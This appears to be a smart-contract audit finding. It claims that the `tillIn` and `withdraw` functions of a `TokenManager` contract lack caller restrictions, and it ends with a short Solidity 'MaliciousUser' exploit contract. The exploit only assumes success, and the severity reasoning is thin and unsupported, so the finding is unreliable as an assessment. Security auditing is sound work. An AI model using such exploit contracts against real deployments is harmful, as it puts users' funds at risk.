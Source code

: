 The functions `tillIn` and `withdraw` handle ETH without strict checks on `msg.sender`. The `tillIn` function allows any caller to deposit ETH into the contract, and the `withdraw` function allows any caller to withdraw ETH, assuming the contract's state allows it. This could be exploited by malicious actors to deposit and withdraw ETH without proper authorization.

* **Function `tillIn`:** Allows deposits of ETH without restricting who can call it. The check for sufficient ETH (`msg.value < _amount`) cannot prevent unauthorized deposits.
* **Function `withdraw`:** Allows ETH withdrawals without restricting who can request a withdrawal. This function transfers ETH directly to the `msg.sender`, potentially allowing unauthorized users to claim funds.

## Impact

* **Unauthorized Deposits:** Malicious users could deposit ETH into the contract, potentially crowding out legitimate operations or misappropriating funds.
* **Unauthorized Withdrawals:** Attackers could withdraw ETH without proper authorization, leading to financial loss or unauthorized access to the contract’s funds.

The impact is high as it directly affects the contract's ability to manage ETH securely, risking potential financial losses and undermining the trust in the contract’s operations.

***

## Tools Used

* **Forge**
* Foundry

## Exploit Code

To demonstrate the potential exploit, here is a simplified contract that interacts with the vulnerable `TokenManager` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "./TokenManager.sol";

contract MaliciousUser {
    TokenManager public tokenManager;

    constructor(address _tokenManager) {
        tokenManager = TokenManager(_tokenManager);
    }

    // Function to exploit the vulnerability and withdraw ETH
    function exploitWithdraw() external {
        // Assumes the contract has some ETH and the exploit succeeds
        tokenManager.withdraw(address(0), TokenManager.TokenBalanceType.PointToken);
    }

    // Function to exploit the vulnerability and deposit ETH
    function exploitDeposit() external payable {
        // Send ETH to the contract to exploit the tillIn function
        tokenManager.tillIn(address(this), address(0), msg.value, false);
    }
}
```
